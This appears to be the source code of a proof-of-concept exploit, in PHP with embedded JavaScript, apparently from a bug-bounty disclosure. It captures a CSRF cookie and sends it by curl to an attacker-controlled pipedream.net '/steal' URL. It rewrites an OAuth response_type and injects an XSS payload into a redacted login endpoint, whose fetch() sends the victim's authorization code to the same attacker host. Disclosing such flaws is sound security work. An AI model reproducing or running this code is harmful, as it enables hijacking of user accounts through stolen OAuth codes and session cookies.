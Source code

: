 ```php

$headers = explode("\r\n", $headers);

foreach ($headers as $header) {
    if (strpos($header, 'Location: ') === 0) {
        $location = substr($header, 10); //oauth url is stored here
    }

    # get set-cookie
    if (strpos($header, 'Set-Cookie: ') === 0) {
        $cookie = substr($header, 12);  // idccsrf cookie is stored here
    }
}



#send this cookie to attacker controlled server https://en2celr7rewbul.m.pipedream.net/steal?q=

$attackerDomain = "https://en2celr7oewbxl.m.pipedream.net/steal?q=";

$curl = curl_init();
curl_setopt($curl, CURLOPT_URL, $attackerDomain . urlencode($cookie));
curl_setopt($curl, CURLOPT_HEADER, true);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);

curl_exec($curl); 



#replace the response_type parameter value with code,id_token oauthUrl

$location = str_replace('response_type=code', 'response_type=code,id_token', $location); // [2]


?>


<body>
    <script>
        console.log("Oauth url: <?php echo $location; ?>")
        console.log("Cookie: <?php echo $cookie; ?>")
        
        // this is the xss payload which we used to steal the authorization code  

        payload = `setTimeout(()=>{fetch("<?php echo $attackerDomain; ?>"%2Bescape(window.opener.document.location.hash));alert(window.opener.document.location.hash)},9000)`

        function startExploit(){
            // window.open location value, it opens the vulnerable xss endpoint a new window


            win = window.open(`https://login.redacted.com/xssendpoint?param=shirley')};${payload};function%20xyz(){window.parent.postMessage('x`);
            // wait 5 seconds

            // This opens the oauth url in the current tab

            setTimeout(() => {
                window.location = `<?php echo $location; ?>;`
                
            }, 5000);

```